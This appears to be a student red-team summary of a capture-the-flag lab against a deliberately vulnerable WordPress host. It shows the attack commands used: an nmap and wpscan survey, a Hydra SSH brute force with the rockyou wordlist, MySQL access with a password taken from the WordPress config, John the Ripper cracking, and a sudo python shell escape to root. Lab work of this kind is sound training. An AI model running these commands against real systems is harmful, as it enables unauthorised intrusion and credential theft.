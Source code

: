 # Red Team: Summary of Operations

## Table of Contents
- Exposed Services
- Critical Vulnerabilities
- Exploitation

### Exposed Services

Nmap scan results for each machine reveal the below services and OS details:

```bash
$ nmap -sV 192.168.1.110
```

![nmapscan_Target1_img1]()

This scan identifies the services below as potential points of entry:
- Target 1
  - Port 22 - SSH
  - Port 80 - HTTP
  - Port 111 - rpcbind
  - Port 139 - netbios-ssn Samba smbd 3.X - 4.X (workgrou: WORKGROUP)
  - Port 445 - netbios-ssn Samba smbd 3.X - 4.X (workgrou: WORKGROUP)

The following vulnerabilities were identified on each target:
- Target 1
  - SSH exposed to bruce force Attempts without multifactor authentication
  - HTTP port 80 allows for web traffic to pass through, and can expose files if not properly managed
  - NeBIOS Port 139 - If this system is going to be exposed to the internet it is advised to block this port from being accessed.
  - NetBIOS SMB port 445 - used in wannacry and notPetya ransomware attacks.  It is advised not to expose this to the internet like you would with a wordpress server.

wpscan -o ~/Desktop/wpscan_output --url http://1292.168.1.110/wordpress

![wpscan_Target1_img1](Images/Flag1_WPScan_1_Target1.png)

![wpscan_Target1_img2](Images/flag1_WPScan_2_Target1.png)

### Exploitation

The Red Team was able to penetrate `Target 1` and retrieve the following confidential data:
- Target 1
  - `michael`: _Password: 'michael'_
    - **Exploit Used**
      - _Hydra: hydra -l michael -P /usr/share/wordlists/rockyou.txt ssh://192.168.1.110:22 -t 4_
      - _Alternative: Guessing_
      - _Alternative: Credential Stuffing_
![/Images/hydra_michael_BruteForce.png](michael_hydra_img1)
![/Images/Flag2.png](michael_img2)
  - `root`: _`mySQL` Password: R@v3nSecurity_
    - **Exploit Used**
      - _Used brute force credentials to gain ssh access_
      - _Discovered Credentials in plain text in config file_
      - _mysql -u root -p wordpress_
![/Images/wordpress_Config.png](MySQL_config_img1)
![/Images/MySQL_Access.png](MySQL_Access_img1)
  - `steven`: `Password:`_"pink84"_ `Hash:`_"See Image Below"_
    - **Exploit Used**
      - _mysql -u root -p wordpress_
      - _John the Ripper with RockYou Dictionary attack_
      - `sudo python -c 'import os; os.system("/bin/sh")'`_to gain root privilege_
![/Images/root_level_access.png](root_img1)
![/Images/Flag3_MySql.png](MySQL_Target1_img1)


- Flags

Flag 1:
![/Images/Flag1.png](Flag_img1)


Flag 2:
![/Images/Flag2.png](flag2_img1)

Flag 3:
![/Images/Flag3.png](Flag_3_MySQL_img1)

Flag 4:
![/Images/Flag4_root.png](Flag_4_root_img2)

